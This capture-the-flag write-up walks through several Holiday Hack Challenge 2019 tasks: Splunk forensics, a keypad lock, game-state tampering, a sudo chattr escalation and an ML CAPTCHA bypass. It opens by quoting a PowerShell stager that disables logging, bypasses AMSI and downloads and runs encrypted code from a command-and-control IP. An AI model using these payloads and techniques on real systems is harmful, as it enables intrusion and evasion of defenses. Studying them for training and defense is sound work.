}$val=[COLlEcTioNs.GEneRiC.DICTIoNAry[StrING,SySTEm.ObjecT]]::NeW();
$vAl.AdD('EnableScriptB'+'lockLogging',0);
$vaL.ADd('EnableScriptBlockInvocationLogging',0);
$GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAl
}ElSE{
[SCrIPTBlOCK]."GEtFIe`lD"('signatures','N'+'onPublic,Static').SETVALUe($NUll,(NEW-OBjEct CollEcTions.GEnerIC.HashSeT[sTrING]))
}[REf].ASSEMBlY.GETTYPe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GETFielD('amsiInitFailed','NonPublic,Static').SEtValUe($NUlL,$True)};
};[SySteM.NeT.SERvicEPoInTMaNaGer]::EXPecT100CONtInUe=0;
$wc=NEw-ObjECT SysTEM.NeT.WeBCLiENT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';
$wC.HEADErS.ADd('User-Agent',$u);
$Wc.ProXy=[SySTeM.Net.WeBREQuEST]::DEFaULTWebProXy;
$WC.PRoXy.CREDenTIAls = [SySTEm.NET.CRedeNTiAlCAcHe]::DeFaulTNeTwORkCREDenTiALS;
$Script:Proxy = $wc.Proxy;
$K=[SySTEM.Text.EncOdING]::ASCII.GeTBYteS('zd!Pmw3J/qnuWoHX~=g.{>p,GE]:|#MR');
$R={$D,$K=$ARGs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COUnt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-BXoR$S[($S[$I]+$S[$H])%256]}};
$ser='http://144.202.46.214:8080';
$t='/admin/get.php';
$WC.HEADErs.Add("Cookie","session=reT9XQAl0EMJnxukEZy/7MS70X4=");
$DATa=$WC.DownlOADDAtA($sEr+$T);$Iv=$DatA[0..3];
$DatA=$dATa[4..$DatA.lENGtH];
-JOIN[ChaR[]](& $R $DatA ($IV+$K))|IEX
Clearly someone is messing around. The command lines are pretty impenetrable,
but the event information shows what was actually done. The contents (8 files)
of C:\Users\cbanas were searched for appearance of the keyword 'Santa'
→ C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt
Message=CommandInvocation(Get-ChildItem): "Get-ChildItem"
ParameterBinding(Get-ChildItem): name="Recurse"; value="True"
ParameterBinding(Get-ChildItem): name="Path"; value="C:\Users\cbanas"
ParameterBinding(Get-ChildItem): name="File"; value="True"
CommandInvocation(ForEach-Object): "ForEach-Object"
ParameterBinding(ForEach-Object): name="Process"; value="Select-String -path $_ -pattern Santa"
ParameterBinding(ForEach-Object): name="InputObject"; value="Microsoft Edge.lnk"
ParameterBinding(ForEach-Object): name="InputObject"; value="Naughty_and_Nice_2019_draft.txt"
ParameterBinding(ForEach-Object): name="InputObject"; value="19th Century Holiday Cheer Assignment.doc"
ParameterBinding(ForEach-Object): name="InputObject"; value="assignment.zip"
ParameterBinding(ForEach-Object): name="InputObject"; value="Bing.url"
ParameterBinding(ForEach-Object): name="InputObject"; value="Desktop.lnk"
ParameterBinding(ForEach-Object): name="InputObject"; value="Downloads.lnk"
ParameterBinding(ForEach-Object): name="InputObject"; value="winrt--{S-1-5-21-1217370868-2414566453-2573080502-1004}-.searchconnector-ms"
The search was successful in one instance, which led to the most recent (top) event in the results list:
ParameterBinding(Format-List): name="InputObject"; value="C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt:1:
Carl, you know there's no one I trust more than you to help. Can you have a look
at this draft Naughty and Nice list for 2019 and let me know your thoughts? -Santa"
The first event in the set is of a different type, with a deeply nested
JSON structure (a stoQ event, as becomes clearer later). It shows
evidence of the extraction of different XML components of a Microsoft
Word document. Anyway, the answer is
→ C:\Users\cbanas\Documents\Naughty_and_Nice_2019_draft.txt
Question 3:
What is the fully-qualified domain name(FQDN)
of the command and control(C2) server? (Example: badguy.baddies.com)
The next task introduces Sysmon logs which can be searched for outside
interactions. PowerShell was used to remote control the system, so the
search term should include powershell and the event code 3 for network
connections:
→ index=main sourcetype=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational powershell EventCode=3
This narrows down the results to 159 events. Marking DestinationHostname
in the list of interesting fields shows that pretty much all those connections
go to the same place. This will be the C2 server which has enslaved poor sweetums.
→ 144.202.46.214.vultr.com
Question 4:
What document is involved with launching the malicious
PowerShell code? Please provide just the filename. (Example: results.txt)
The first step is to look for PowerShell events and to find out when
all this activity started:
→ index=main sourcetype="WinEventLog:Microsoft-Windows-Powershell/Operational" | reverse
The first event is timestamped 08/25/2019 09:18:37 AM. So lets find out what happened
in a +- 5 second interval around this time by looking for nearby events (called pivoting on time).
40 events of all descriptions are returned. The events of interest are Sysmon events. Restricting
the search to them leaves 12 events, and they are all linked to two process IDs.
→ index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
To find out how these processes were started, we are told to look for Windows Process Execution events (Event ID 4688) linked to those two process IDs, 5864 = 0x16e8 and 6268 = 0x187c. The second one holds the answer.
→ index=main sourcetype=WinEventLog EventCode=4688 New_Process_ID=0x16e8
New Process ID: 0x16e8
New Process Name: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Token Elevation Type: %%1938
Mandatory Label: Mandatory Label\Medium Mandatory Level
Creator Process ID: 0xc10
Creator Process Name: C:\Windows\System32\wbem\WmiPrvSE.exe
Process Command Line: powershell -noP -sta -w 1 -enc <long nasty base64>
→ index=main sourcetype=WinEventLog EventCode=4688 New_Process_ID=0x187c
New Process ID: 0x187c
New Process Name: C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.EXE
Token Elevation Type: %%1938
Mandatory Label: Mandatory Label\Medium Mandatory Level
Creator Process ID: 0x1748
Creator Process Name: C:\Windows\explorer.exe
Process Command Line: "C:\Program Files (x86)\Microsoft Office\Root\Office16\WINWORD.EXE" /n
"C:\Windows\Temp\Temp1_Buttercups_HOL404_assignment (002).zip\19th Century Holiday Cheer Assignment.docm"
→ 19th Century Holiday Cheer Assignment.docm
Question 5:
How many unique email addresses were used to send
Holiday Cheer essays to Professor Banas? Please provide the numeric
value. (Example: 1)
Apparently, ELFU uses the stoQ automation framework to analyze all emails
in and out of the university. Its logs can be searched with
sourcetype=stoq, finding 42 mails from and to Prof. Banas.
The direct JSON output is pretty hard to digest, so the output should be
filtered to a table to visualize the interesting fields.
We are interested in all email to Prof. Banas with the exact
subject 'Holiday Cheer Assignment Submission'
index=main sourcetype=stoq
"results{}.workers.smtp.from"!="Carl Banas <Carl.Banas@faculty.elfu.org>"
"results{}.workers.smtp.subject"="holiday cheer assignment submission"
| table _time results{}.workers.smtp.to results{}.workers.smtp.from results{}.workers.smtp.subject results{}.workers.smtp.body
| sort - _time
21 mails are returned. It would be nice to group them by their lowercase source
(results{}.workers.smtp.from) so that email addresses do not occur twice, but I
wasn't able to find a filter to do this. So I simply sorted by results{}.workers.smtp.from
and checked by hand. All 21 addresses are distinct, so this gives the answer.
→ 21
Question 6:
What was the password for the zip archive that
contained the suspicious file?
The last two training questions are answered by the very suspicious looking email from Bradly Buttercup, asking to extract a Word Document from a password protected ZIP file (to try to bypass automated scanning) and to enable active content. "I hope you like it" indeed!
→ 123456789
Question 7:
What email address did the suspicious file come from?
→ bradly.buttercups@eifu.org
Challenge Question:
What was the message for Kent that the
adversary embedded in this attack?
The stoQ log of the evil mail identified above only shows the metadata,
but also contains references to actual data which is located in the archive.
The raw JSON request log can be loaded with
→ index=main sourcetype=stoq "results{}.workers.smtp.from"="Bradly Buttercups
<Bradly.Buttercups@eIfu.org>"
The different data components are separated out into 30 results, and
the interesting data is placed in
| Name of file | results{}.payload_meta.extra_data.filename |
| Archive location | results{}.archivers.filedir.path |
Going through these results items one by oen would be extremely boring. Filters can be used to delve down and extract the desired data in tabular form. The following sequence of filters following the above search does the required magic:
| eval results = spath(_raw, "results{}"):assign the elements of the results{} array to the multivalue variable results| mvexpand results:expand the multiple values of results into separate events| eval path=spath(results, "archivers.filedir.path"), filename=spath(results, "payload_meta.extra_data.filename"), fullpath=path."/".filename:assign filename, archive path and full path to separate variables| search fullpath!="filename":get rid of entries without file reference| table filename,fullpath:show file name and full archive paths as table
| 1574356658.Vca01I45e44M667617.ip-172-31-47-72 | /home/ubuntu/archive/7/f/6/3/a/7f63ace9873ce7326199e464adfdaad76a4c4e16/1574356658.Vca01I45e44M667617.ip-172-31-47-72 |
| Buttercups_HOL404_assignment.zip | /home/ubuntu/archive/9/b/b/3/d/9bb3d1b233ee039315fd36527e0b565e7d4b778f/Buttercups_HOL404_assignment.zip |
| 19th Century Holiday Cheer Assignment.docm | /home/ubuntu/archive/c/6/e/1/7/c6e175f5b8048c771b3a3fac5f3295d2032524af/19th Century Holiday Cheer Assignment.docm |
| [Content_Types].xml | /home/ubuntu/archive/b/e/7/b/9/be7b9b92a7acd38d39e86f56e89ef189f9d8ac2d/[Content_Types].xml |
| document.xml | /home/ubuntu/archive/1/e/a/4/4/1ea44e753bd217e0edae781e8b5b5c39577c582f/document.xml |
| styles.xml | /home/ubuntu/archive/e/e/b/4/0/eeb40799bae524d10d8df2d65e5174980c7a9a91/styles.xml |
| settings.xml | /home/ubuntu/archive/1/8/f/3/3/18f3376a0ce18b348c6d0a4ba9ec35cde2cab300/settings.xml |
| vbaData.xml | /home/ubuntu/archive/f/2/a/8/0/f2a801de2e254e15840460f4a53e568f6622c48b/vbaData.xml |
| fontTable.xml | /home/ubuntu/archive/1/0/7/4/0/1074061aa9d9649d294494bb0ae40217b9c7a2d9/fontTable.xml |
| webSettings.xml | /home/ubuntu/archive/8/6/c/4/d/86c4d8a2f37c6b4709273561700640a6566491b1/webSettings.xml |
| vbaProject.bin | ...< VBA not stored, actual malware >... |
| document.xml.rels | /home/ubuntu/archive/a/2/b/b/1/a2bb14afe8161ee9bd4a6ea10ef5a9281e42cd09/document.xml.rels /td> |
| vbaProject.bin.rels | /home/ubuntu/archive/4/0/d/c/1/40dc1e00e2663cb33f8c296cdb0cd52fa07a87b6/vbaProject.bin.rels |
| theme1.xml | /home/ubuntu/archive/f/5/c/b/a/f5cba8a650d6ada98d170f1b22098d93b8ff8879/theme1.xml |
| item1.xml | /home/ubuntu/archive/0/2/b/6/7/02b67cad55d2684115a7de04d0458a3af46b12c6/item1.xml |
| itemProps1.xml | /home/ubuntu/archive/1/7/6/1/2/1761214092f5c0e375ab3bc58a8687134b7f2582/itemProps1.xml |
| item1.xml.rels | /home/ubuntu/archive/b/7/7/0/f/b770f3a79423882bdae4240e995c0885770022ef/item1.xml.rels |
| .rels | /home/ubuntu/archive/9/d/7/a/b/9d7abf0ee4effcecad80c8bbfb276079a05b4342/.rels |
| app.xml | /home/ubuntu/archive/e/9/2/1/1/e9211c706be234c20d3c02123d85fea50ae638fd/app.xml |
| core.xml | /home/ubuntu/archive/f/f/1/e/a/ff1ea6f13be3faabd0da728f514deb7fe3577cc4/core.xml |
We can access the complete document or its individual (XML) components. Following an archive link leads to a download of the stored data.
| 19th Century Holiday Cheer Assignment.docm | Cleaned for your safety. Happy Holidays! In the real world, This would have been a wonderful artifact for you to investigate, but it had malware in it of course so it's not posted here. Fear not! The core.xml file that was a component of this original macro-enabled Word doc is still in this File Archive thanks to stoQ. Find it and you will be a happy elf :-) |
| core.xml | <cp:coreProperties> <dc:title>Holiday Cheer Assignment</dc:title> <dc:subject>19th Century Cheer</dc:subject> <dc:creator>Bradly Buttercups</dc:creator> <cp:keywords/> <dc:description> Kent you are so unfair. And we were going to make you the king of the Winter Carnival. </dc:description> <cp:lastModifiedBy>Tim Edwards</cp:lastModifiedBy> <cp:revision>4</cp:revision> <dcterms:created xsi:type="dcterms:W3CDTF">2019-11-19T14:54:00Z</dcterms:created> <dcterms:modified xsi:type="dcterms:W3CDTF">2019-11-19T17:50:00Z</dcterms:modified><cp:category/> </cp:coreProperties> |
Objective 7: Get Access To The Steam Tunnels
Gain access to the steam tunnels. Who took the turtle doves? Please tell us their first and last name. For hints on achieving this objective, please visit Minty's dorm room and talk with Minty Candy Cane.
I) Gain access to the Dormitories
I'm sleuthing again, and I could use your help. Ya see, this here number lock's been popped by someone.
I think I know who, but it'd sure be great if you could open this up for me. I've got a few clues for you.
- One digit is repeated once.
- The code is a prime number.
- You can probably tell by looking at the keypad which buttons are used.
Looking at the keypad, one can see that the 1, 3, 7
and ENTER keys have thawed slightly from regular use. I imported
a tab separated list of primes up to 10.000 (primes.txt)
and tried each 4 digit prime for being a valid code. It is
sufficient to check that all digits 1,3,7 are used at least once.
with open("primes.txt", "r") as fh:
primes = fh.read().split()
for p in primes:
if len(p) == 4 and set(p) == {'1', '3', '7'}:
print(p)
5 possibilities exist: 1373, 1733, 3137, 3371 and 7331. The last one (not surprisingly) opens the lock.
II) Help Minty Candycane
So, Minty is worried about Shigella. Unusual in candy canes I would have thought. And the Web App talk was very nice, quite digestible. But lets not digress.
The game is actually a lot of fun! After selecting a difficulty on the starting screen, supplies can be purchased in a shop, and then we hit the trail, fight disease and food shortage, go hunting and shopping, and hopefully reach KringleCon before time runs out. Beating the game on Easy is, well, easy, but takes time and patience. We want to beat the game on hard. So, lets cheat a bit ...
The first step is to check the source-code of the frame showing the game. Leaving
out all the CSS, we see an encoded playerid, a POST request to set difficulty and
some comments indicating that hash integrity validation has been added (not visible
yet). In order to mess around with the game, it is helpful to get rid of the
annoying framing. This is a bit tricky, because the actual game URL
https://trail.elfu.org sets the playerid
to Jebediah Springfield (founder of the city of Springfield, as in Simpsons) by
default. This has to be changed, so that the fake win to come gets associated with
the correct account. It is probably enough to copy the playerid from the game frame
into the starting URI trail.elfu.org/gameselect/?playerid=xxx, but I
also included the trail-mix-cookie for good measure.
<div class="topnav">
<div class="centered">
<form id="urlform" action="/gameselect/" method="post" class="urlform">
<input type="text" class="urlbar" value="hhc://trail.hhc/gameselect/" name="url" size="40">
<input type="hidden" class="playerid" name="playerid" value="ea364429-63c5-423c-9e41-37c9375ca8be">
<input type="submit" class="urlbtn" name="submit" value=">"/>
</form>
</div>
<h1 class="tight"><img src="art/pieces/hht.png" alt="header"></h1>
<h1 class="tight"><img src="art/pieces/header.png" alt="header"></h1>
</div>
<div id="page-container">
<p>
Welcome to the Trail! It's nearly time for Kringlecon. You need to get there
before the 25th day of December! Hitch up your reindeer, gather your supplies,
and do your best to make it to the North Pole on time.<br> Good luck!
</p>
<h2>Select Difficulty</h2>
<table id="info"><form id="userform" action="/store/" method="post">
<input type="submit" class="btn" name="difficulty" value="Easy" />
<input type="submit" class="btn" name="difficulty" value="Medium" />
<input type="submit" class="btn" name="difficulty" value="Hard" /> <br>
<input type="hidden" class="playerid" name="playerid" value="ea364429-63c5-423c-9e41-37c9375ca8be" />
</form></table><br><br>
<ul style='list-style-type: none; padding: 0px; text-align: left;'>
<li><b>Easy:</b> Start with 5000 money on 1 July</li><br>
<!-- possibly vulnerable to URL param manipulation -->
<li><b>Medium:</b> Start with 3000 money on 1 August</li><br>
<!-- params moved to body of POST request -->
<li><b>Hard:</b> Start with 1500 money on 1 September<br><br>
<img src="art/pieces/header.png" alt="header"></li>
<!-- add hash integrity to ensure there's NO cheating! -->
</ul>
</div>
Lets be manly and select difficulty hard. Next comes the opportunity to purchase supplies. As shown in the talk, one can try to buy more than permitted by using negative values, e.g. for ammo, but unfortunately the server notices:
Unlucky, but illegally stocking up is pedestrian anyway. Much more interesting is the hidden status container concealed within the source code, which appears in every game page from now on:
<div id="statusContainer">
<input type="hidden" name="difficulty" class="difficulty" value="2">
<input type="hidden" name="money" class="difficulty" value="0">
<input type="hidden" name="distance" class="distance" value="61">
<input type="hidden" name="curmonth" class="difficulty" value="9">
<input type="hidden" name="curday" class="difficulty" value="2">
<input type="hidden" name="name0" class="name0" value="Chris">
<input type="hidden" name="health0" class="health0" value="100">
<input type="hidden" name="cond0" class="cond0" value="0">
<input type="hidden" name="cause0" class="cause0" value="">
<input type="hidden" name="deathday0" class="deathday0" value="0">
<input type="hidden" name="deathmonth0" class="deathmonth0" value="0">
<input type="hidden" name="name1" class="name1" value="Mathias">
<input type="hidden" name="health1" class="health1" value="100">
<input type="hidden" name="cond1" class="cond1" value="0">
<input type="hidden" name="cause1" class="cause1" value="">
<input type="hidden" name="deathday1" class="deathday1" value="0">
<input type="hidden" name="deathmonth1" class="deathmonth1" value="0">
<input type="hidden" name="name2" class="name2" value="Joseph">
<input type="hidden" name="health2" class="health2" value="100">
<input type="hidden" name="cond2" class="cond2" value="0">
<input type="hidden" name="cause2" class="cause2" value="">
<input type="hidden" name="deathday2" class="deathday2" value="0">
<input type="hidden" name="deathmonth2" class="deathmonth2" value="0">
<input type="hidden" name="name3" class="name3" value="Emmanuel">
<input type="hidden" name="health3" class="health3" value="100">
<input type="hidden" name="cond3" class="cond3" value="0">
<input type="hidden" name="cause3" class="cause3" value="">
<input type="hidden" name="deathday3" class="deathday3" value="0">
<input type="hidden" name="deathmonth3" class="deathmonth3" value="0">
<input type="hidden" name="reindeer" class="reindeer" value="5">
<input type="hidden" name="runners" class="runners" value="2">
<input type="hidden" name="ammo" class="ammo" value="10">
<input type="hidden" name="meds" class="meds" value="2">
<input type="hidden" name="food" class="food" value="92">
<input type="hidden" name="hash" class="hash" value="cedebb6e872f539bef8c3f919874e9d7">
</div>
The status above was pulled after the first move, with 3 extra reindeer. By checking the browser dev tools, one can see that all these parameters are passed along as POST parameters with every request made. The server avoids having to keep game state this way. An open invitation for meddling, if one can get around the hash protection. The hash is simply MD5, which can be reversed using rainbow tables: cedebb6e872f539bef8c3f919874e9d7 = MD5(183). Some experimentation confirms that this is just the sum of the status field values of
- money = 0
- distance = 61
- curmonth = 9
- curday = 2
- reindeer = 5
- runners = 2
- ammo = 10
- meds = 2
- food = 92
To exploit this, I intercepted the POST request for the next day with a proxy (I used ZAP) and changed the payload by adding 7800 to the distance. (adding more seemed to result in hash failure, for some reason)
-
original POST payload:
pace=0&playerid=6ff3d3f5-dd30-4b0f-87ab-475eb3e7ac5e&action=go&difficulty=2&money=0&distance=61&curmonth=9&curday=2&name0=Chris&health0=100&cond0=0&cause0=&deathday0=0&deathmonth0=0&name1=Mathias&health1=100&cond1=0&cause1=&deathday1=0&deathmonth1=0&name2=Joseph&health2=100&cond2=0&cause2=&deathday2=0&deathmonth2=0&name3=Emmanuel&health3=100&cond3=0&cause3=&deathday3=0&deathmonth3=0&reindeer=5&runners=2&ammo=10&meds=2&food=92&hash=cedebb6e872f539bef8c3f919874e9d7 -
modified POST payload:
pace=0&playerid=6ff3d3f5-dd30-4b0f-87ab-475eb3e7ac5e&action=go&difficulty=2&money=0&distance=7861&curmonth=9&curday=2&name0=Chris&health0=100&cond0=0&cause0=&deathday0=0&deathmonth0=0&name1=Mathias&health1=100&cond1=0&cause1=&deathday1=0&deathmonth1=0&name2=Joseph&health2=100&cond2=0&cause2=&deathday2=0&deathmonth2=0&name3=Emmanuel&health3=100&cond3=0&cause3=&deathday3=0&deathmonth3=0&reindeer=5&runners=2&ammo=10&meds=2&food=92&hash=6e4621af9a4da94a7c85d7ecd19b1271
where 6e4621af9a4da94a7c85d7ecd19b1271 = MD5(7983). And luck smiled:
What a leap ahead! A few days later, good Minty was overjoyed to see me beat the game. Ho ho ho ...
Actually, there is an extra hidden in this success page which I missed at the time, but which was pointed out by Kent Tinseltooth later after solving his talkative braces issue. The source code contains a comment which is a hint for objective 11!
<!-- 1 - When I'm down, my F12 key consoles me 2 - Reminds me of the transition to the paperless naughty/nice list... 3 - Like a present stuck in the chimney! It got sent... 4 - We keep that next to the cookie jar 5 - My title is toy maker the combination is 12345 6 - Are we making hologram elf trading cards this year? 7 - If we are, we should have a few fonts to choose from 8 - The parents of spoiled kids go on the naughty list... 9 - Some toys have to be forced active 10 - Sometimes when I'm working, I slide my hat to the left and move odd things onto my scalp! -->
III) Get Access To The Steam Tunnels
The door of the dorm room on the far right is slightly ajar. Curiosity beats politeness, so lets have a snoop. A student room with a strange character inside, who looks surprised and quickly hops away into a walk-in closet. Following him leads to a locked door with a pin-tumbler wall-lock.
This is a physical security problem, or in less polite terms breaking and entering. To beat the wall lock, I need a key, which I don't have. The excellent talk by Deviant Ollam on optical decoding of keys is an eye opener, and Minty Candycane's hint instructs how to put theory into practice.
all we need is a photo of the original key, and the make of the lock. The lock is a Schlage, which can be read after some image magnification and sharpening. But where to get an image of the key? The strange guy hopping into the closet seems to be wearing a key on his belt. Simply taking a screenshot is not good enough, because the resolution is far too low to be useful. If I had read Minty's hint carefully before doing this, I would have looked for a high resolution image of the key in the Network tab of the browser console. But of course I had to rush ahead blindly, because this is fun ...
I used a 500% zoom setting for the browser to improve the resolution, and applied the Schlage key decoding mask made available by Deviant. It is difficult to read the bitting precisely because of the blurring, so I simply tried a few variants on the key grinder sitting on the desk and entered the closet with 5 keys dangling from my belt
The key with bitting code 122520 opened the lock and freed passage into the dank steam tunnels (looks more like sewers to me ...). Ominous warning signs painted in blood(?) adorn the way. Ominous music wafts across, and the presence of unspeakable evil is felt. Hairs standing on end, I made my way to the end of the passage ... only to find good old Krampus Hollyfeld standing at his workbench. Would have been too early for a climax, wouldn't it?
Well, this solves the Turtle Dove mystery, and should ease Santa's mind. But there seems to be a deeper issue here, and before finding out, Krampus' trust issues have to be resolved. After all, who can trust anyone in a neighbourhood as nefarious as ELFU?
Objective 8: Bypassing the Frido Sleigh CAPTEHA
Help Krampus beat the Frido Sleigh contest. For hints on achieving this objective, please talk with Alabaster Snowball in the Speaker Unpreparedness Room.
I) Help Alabaster Snowball
My name's Alabaster Snowball and I could use a hand. I'm trying to log into this terminal, but something's gone horribly wrong. Every time I try to log in, I get accosted with ... a hatted cat and a toaster pastry? I thought my shell was Bash, not flying feline. When I try to overwrite it with something else, I get permission errors. Have you heard any chatter about immutable files? And what is sudo -l telling me?
Obviously, someone was having fun. The starting screen of the terminal contains
the credentials of Alabaster Snowball (alabaster_snowball : Password2), as well
as a challenge to log in as Alabaster and get a Bash prompt.
As soon as I try to change user with
su alabaster_snowball, a video of a speeding Santa-cat
appears instead of a shell, and no command entry is possible.
The first hint points at /etc/passwd. A backup file /etc/passwd-
is also around, indicating that someone might have been naughty.
$cat /etc/passwd root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin elf:x:1000:1000::/home/elf:/bin/bash alabaster_snowball:x:1001:1001::/home/alabaster_snowball:/bin/nsh $cat /etc/passwd- same, except alabasters entry is now /bin/bash
Because I do not know the root password, I cannot revert /etc/passwd
back to its original form. Instead, one could try to replace /bin/nsh.
I was quite surprised to see that nsh has completely open permissions, and even
more surprised to find out that it is still not editable! The challenge description
mentions
immutable files, so lets check its attributes:
$ls -l /bin/nsh -rwxrwxrwx 1 root root 75680 Dec 11 17:40 /bin/nsh $lsattr /bin/nsh ----i---------e---- /bin/nsh
The 'i' in the attribute list stands for immutable, meaning the file cannot be changed in any way without first removing the immutable flag from it. This is enforced independently of access permissions on a file or user privileges. Only the super user or a process that has the CAP_LINUX_IMMUTABLE capability can set or clear this attribute.
To get any further, I need to escalate my privileges. The command sudo -l was mentioned in the hint. According to man pages, If no command is specified, the -l (list) option will list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.
$sudo -l
Matching Defaults entries for elf on 829ad1bd47ef:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User elf may run the following commands on 829ad1bd47ef:
(root) NOPASSWD: /usr/bin/chattr
How strangely convenient: user elf has permission to run chattr as root without password. And chattr (without e) lets a user set file attributes. Once the immutable attribute is gone, /bin/nsh can be overwritten with /bin/bash (yes, yes, very brutish, absolutely, but it works), and Alabaster is a happy elf.
$sudo chattr -i /bin/nsh $lsattr /bin/nsh --------------e---- /bin/nsh $cp /bin/bash /bin/nsh $su alabaster_snowball Password: Password2 Loading, please wait...... You did it! Congratulations!
II) Bypassing the Frido Sleigh CAPTEHA
Back to Krampus and his trust issues. Though, I suspect that it more the presence of greed than the lack of trust which motivates him ...
The contest is here on my screen and at fridosleigh.com. No purchase necessary, enter as often as you want, so I am! They set up the rules, and lately, I have come to realize that I have certain materialistic, cookie needs. Unfortunately, it's restricted to elves only, and I can't bypass the CAPTEHA. (That's Completely Automated Public Turing test to tell Elves and Humans Apart.) I've already cataloged 12,000 images and decoded the API interface. Can you help me bypass the CAPTEHA and submit lots of entries?
I do sympathise with Krampus. Life-time cookie supplies is just too big an opportunity to pass by. The page just asks for name, age, email, cookie preferences and a short essay on the reason for your cookie crave. However, before the submission is accepted, a CAPTEHA (Completely Automated Public Turing test to tell Elves and Humans Apart) is used to block unwanted entries, in particular Krampus. We have Alabaster Snowball to thank for that:
The victim has to select 3 out of 6 image types in a tableau of 10x10 images, with a time limit of 5 seconds. The idea is to use machine learning to do this. Krampus has prepared by collecting 1996 examples of each image type to train the algorithm (the guy must be desparate!):
- Candy Canes
- Christmas Trees
- Ornaments
- Presents
- Santa Hats
- Stockings
As indicated in the hint by Alabaster Snowball, there is a video on how to use machine learning to defeat captchas, together with python code for a demo using the TensorFlow engine. This demo is a godsent, because writing tensorflow code from scratch is far from obvious. It also includes a dataset for separating apples from bananas as an example, which helped validate the installation.
The code comes in two parts. retrain.py uses a selected
image feature vector module to train an image classifier on a set of
classified images, which requires a subfolder of example images
for each image class. This takes quite some time. In the end, two
output files are generated:
/tmp/retrain_tmp/output_graph.pb- Trained Machine Learning Model/tmp/retrain_tmp/output_labels.txt- Labels for Images
The second part, predict_images_using_trained_model.py
predicts a set of unknown images based on this trained model.
As a first attempt, I used the retrain code with default settings
to build a trained model based on Krampus' data:
python retrain.py --image_dir ../capteha_images/
Next, I adapted Krampus' python API interface script to run
this model on the CAPTEHA images:
#!/usr/bin/env python3
# Fridosleigh.com CAPTEHA API - Made by Krampus Hollyfeld
import os
os.environ['TF_CPP_MIN_LOG_LEVEL'] = '3'
import tensorflow as tf
tf.logging.set_verbosity(tf.logging.ERROR)
import requests
import json
import sys
import numpy as np
import threading
import queue
import time
import base64
def load_labels(label_file):
label = []
proto_as_ascii_lines = tf.gfile.GFile(label_file).readlines()
for l in proto_as_ascii_lines:
label.append(l.rstrip())
return label
def predict_image(q, sess, graph, image_bytes, img_uuid, labels, input_operation, output_operation):
image = read_tensor_from_image_bytes(image_bytes, input_height=192, input_width=192) # adapt for mobilenet
results = sess.run(output_operation.outputs[0], {
input_operation.outputs[0]: image
})
results = np.squeeze(results)
prediction = results.argsort()[-5:][::-1][0]
q.put( {'img_uuid':img_uuid, 'prediction':labels[prediction].title(), 'percent':results[prediction]} )
def load_graph(model_file):
graph = tf.Graph()
graph_def = tf.GraphDef()
with open(model_file, "rb") as f:
graph_def.ParseFromString(f.read())
with graph.as_default():
tf.import_graph_def(graph_def)
return graph
def read_tensor_from_image_bytes(imagebytes, input_height=299, input_width=299, input_mean=0, input_std=255):
image_reader = tf.image.decode_png( imagebytes, channels=3, name="png_reader")
float_caster = tf.cast(image_reader, tf.float32)
dims_expander = tf.expand_dims(float_caster, 0)
resized = tf.image.resize_bilinear(dims_expander, [input_height, input_width])
normalized = tf.divide(tf.subtract(resized, [input_mean]), [input_std])
sess = tf.compat.v1.Session()
result = sess.run(normalized)
return result
def main():
yourREALemailAddress = "oh_no@dream.on"
# Creating a session to handle cookies
s = requests.Session()
url = "https://fridosleigh.com/"
# Loading the Trained Machine Learning Model created from running retrain.py on the training_images directory
graph = load_graph('/tmp/retrain_tmp/output_graph.pb')
labels = load_labels("/tmp/retrain_tmp/output_labels.txt")
# Load up our session
input_operation = graph.get_operation_by_name("import/Placeholder")
output_operation = graph.get_operation_by_name("import/final_result")
sess = tf.compat.v1.Session(graph=graph)
# Can use queues and threading to speed up the processing
q = queue.Queue()
json_resp = json.loads(s.get("{}api/capteha/request".format(url)).text)
b64_images = json_resp['images'] # A list of dictionaries eaching containing the keys 'base64' and 'uuid'
challenge_image_type = json_resp['select_type'].split(',') # The Image types the CAPTEHA Challenge is looking for.
challenge_image_types = [challenge_image_type[0].strip(), challenge_image_type[1].strip(), challenge_image_type[2].replace(' and ','').strip()] # cleaning and formatting
start_time = time.perf_counter()
# Going to iterate over each of our images.
for image in b64_images:
print('Processing Image {}'.format(image["uuid"]))
# We don't want to process too many images at once. 10 threads max
while len(threading.enumerate()) > 10:
time.sleep(0.0001)
# predict_image function is expecting png image bytes so we read image as 'rb' to get a bytes object
image_bytes = base64.b64decode(image["base64"])
threading.Thread(target=predict_image, args=(q, sess, graph, image_bytes, image["uuid"], labels, input_operation, output_operation)).start()
print('Waiting For Threads to Finish...')
